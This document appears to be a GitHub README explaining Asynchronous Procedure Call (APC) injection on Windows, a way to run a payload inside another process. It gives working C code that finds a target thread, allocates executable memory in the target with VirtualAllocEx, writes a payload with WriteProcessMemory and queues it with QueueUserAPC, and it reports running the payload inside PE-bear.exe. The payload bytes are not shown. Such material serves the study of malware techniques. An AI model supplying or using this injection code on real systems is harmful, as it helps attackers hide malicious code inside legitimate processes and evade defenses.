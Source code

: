 # Asynchronous Procedure Call(APC) Injection
Asynchronous Procedure Call (APC) Injection is a technique used to execute malicious code within the context of a targeted process by manipulating `Asynchronous Procedure Calls`, which are a mechanism used in Windows operating systems to execute code asynchronously within a thread's context. 

APCs, or `Asynchronous Procedure Calls`, are a fundamental mechanism used in Windows operating systems to allow for asynchronous execution of code within the context of a specific thread. They are an essential part of the Windows Kernel's Executive subsystem, providing a means for inter-process and intra-process communication. An `Asynchronous Procedure Call` (APC) is a function that executes asynchronously. APCs execute within the context of a particular thread. 

> Note that for this PoC, we are using `PE-bear.exe` instead of `notepad.exe`.

## The Code
The main function for this code looks like all other examples:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_apc(pid);
    return 0;
}
```

We find the Process ID of the target process and pass it to the `inject_apc()` function where the injection takes place. The `inject_apc()` function has the following structural code:

```c
int inject_apc(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);
    LPVOID pRemoteCode =  VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);
    dResult = QueueUserAPC((PAPCFUNC)pRemoteCode, hThread, NULL);
    dResult = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

First, we go ahead and find a thread in the target process which we can acquire a handle to with the `THREAD_ALL_ACCESS` permissions. Once we have the thread id, we use `OpenThread()` function to get a handle(`hThread`) to it. We then acquire a handle to the target process(`hProcess`), making sure that our handle has the `PROCESS_CREATE_THREAD` permission among the other necessary ones. 

We follow the usual drill of allocating memory in the target process's virtual address space with `VirtualAllocEx()` and copying our payload over with `WriteProcessMemory()`. 

Finally, we come to the heart of the Code: adding a user-mode APC object to the APC queue of the previously selected thread in the target process with the `QueueUserAPC()` function. We pass the following parameters to the function:

- The start address of the memory region holding our payload in the target process's virtual address space (`pRemoteCode`). This is treated as the application-supplied APC function to be called when the specified thread performs an alertable wait operation. 
- Handle to the thread (`hThread`), to the queue of which we would add our APC object.
- A `NULL` value which indicates that no values are passed to the APC function.

Once completed, we enter _Wait-and-Pray_ state where we wait for the thread to finish the tasks at hand and gradually clear the APC queue till it reaches our APC object and executes our payload. This can take a while, so we wait for the thread to enter the signaled state with `WaitForSingleObject()`. 

Compiling and running the program, we are able to run our payload in the context of the target process as such:

![](./imgs/apc.png)

Note that for APC injections, it is very difficult to determine when the payload will be triggered (if it is triggered at all) depending upon which thread we are selecting and the already lined up APC objects in the APC queue. Hence, it might not be the most reliable injection method. 